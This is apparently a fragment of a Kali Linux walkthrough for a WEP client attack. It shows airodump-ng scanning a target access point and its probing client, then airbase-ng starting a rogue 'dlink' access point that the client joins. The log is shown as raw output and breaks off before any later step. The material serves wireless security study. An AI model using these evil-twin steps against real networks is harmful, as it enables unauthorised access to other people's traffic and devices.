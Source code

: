 Start ```airodump-ng```

```sh
root@kali:~# airodump-ng wlan0mon --channel 4 --bssid 84:C9:B2:6D:0C:85

 CH  4 ][ Elapsed: 2 mins ][ 2017-06-06 19:39

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 84:C9:B2:6D:0C:85   -3  93     1270      147    0   4  11e. WEP  WEP    SKA  dlink

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 84:C9:B2:6D:0C:85  BC:9F:EF:69:35:19  -26    5e-11      0      169  dlink
root@kali:~#
```

Client was probing for ```dlink``` so we set up a soft AP called ```dlink``` with the ```WEP``` flag set

```sh
root@kali:~# airbase-ng -W 1 --essid dlink --channel 4 wlan0mon
19:37:14  Created tap interface at0
19:37:14  Trying to set MTU on at0 to 1500
19:37:14  Access Point with BSSID 00:C0:CA:92:3C:89 started.
19:37:44  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:44  SKA from BC:9F:EF:69:35:19
19:37:44  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  SKA from BC:9F:EF:69:35:19
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  SKA from BC:9F:EF:69:35:19
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  SKA from BC:9F:EF:69:35:19
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  SKA from BC:9F:EF:69:35:19
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:37:45  SKA from BC:9F:EF:69:35:19
19:37:45  Client BC:9F:EF:69:35:19 associated (WEP) to ESSID: "dlink"
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  Broken SKA: BC:9F:EF:69:35:19 (expected: 170, got 157 bytes)
19:38:16  SKA from BC:9F:EF:69:35:19
```